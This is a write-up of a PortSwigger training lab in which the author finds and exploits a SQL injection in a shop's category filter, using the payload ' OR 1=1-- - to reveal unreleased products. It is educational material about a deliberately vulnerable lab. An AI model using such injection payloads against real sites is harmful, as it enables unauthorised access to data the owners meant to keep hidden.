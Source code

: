 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data), you'll learn: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032350.png)

**View-source:**
```html
<div theme="ecommerce">
            <section class="maincontainer">
                <div class="container">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Gifts">Gifts</a>
                        <a href="/filter?category=Lifestyle">Lifestyle</a>
                        <a href="/filter?category=Pets">Pets</a>
                    </section>
                    <section class="container-list-tiles">
                        <div>
                            <img src="/image/productcatalog/products/20.jpg">
                            <h3>Single Use Food Hider</h3>
                            <img src="/resources/images/rating3.png">
                            $58.56
                            <a class="button" href="/product?productId=9">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/23.jpg">
                            <h3>Sprout More Brain Power</h3>
                            <img src="/resources/images/rating2.png">
                            $90.82
                            <a class="button" href="/product?productId=14">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/52.jpg">
                            <h3>Hydrated Crackers</h3>
                            <img src="/resources/images/rating2.png">
                            $11.66
                            <a class="button" href="/product?productId=19">View details</a>
                        </div>
                        [...]
```

As you can see, **there is a `filter` page that accepts `category` GET parameter, and a `product` page that accepts `productId` GET parameter.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032838.png)

Hmm... What if I clicked one of the `View details` buttons?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032910.png)

**It brings me to the `product` page with the `productId` GET parameter value `9`.**

What if I change the `9` to `1`?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033024.png)

Hmm... Nothing weird.

**How about testing it for it is vulnerable to SQL injection?**

**Imagine this is the SQL statement of the `productId`:**
```sql
SELECT * FROM products WHERE productId = '1'
```

**What if I close that string with `'`, then returns always true via `OR 1=1`, then commented out the rest of the SQL statement?**

**Payload:**
```sql
/product?productId=1' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE productId = '1' OR 1=1-- -
```

Will it returns every products?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033129.png)

Hmm... Nope. It requires a valid product ID.

**How about the `filter` page?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033640.png)

**Let's click the `Pets` filter!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033708.png)

**Now the GET parameter value will be: `Pets`**

**Also, let's go back to the SQL statement that the lab gave us:**
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**Hmm... Again, what if I let it returns always true via the `OR` clause?**  

**Payload:**
```sql
/filter?category=' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE category = '' OR 1=1-- - AND released = 1
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034318.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034331.png)

**Now we can see there are some unreleased items!!**

# Conclusion

What we've learned:

1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
